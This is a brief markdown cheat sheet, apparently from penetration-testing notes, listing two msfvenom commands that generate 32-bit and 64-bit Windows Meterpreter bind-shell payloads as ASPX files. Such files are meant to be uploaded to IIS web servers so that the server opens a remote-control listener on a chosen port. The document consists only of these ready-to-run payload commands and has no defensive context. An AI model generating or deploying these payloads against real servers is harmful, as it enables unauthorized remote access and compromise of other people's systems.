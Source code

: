 # ASPX

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x64.aspx`
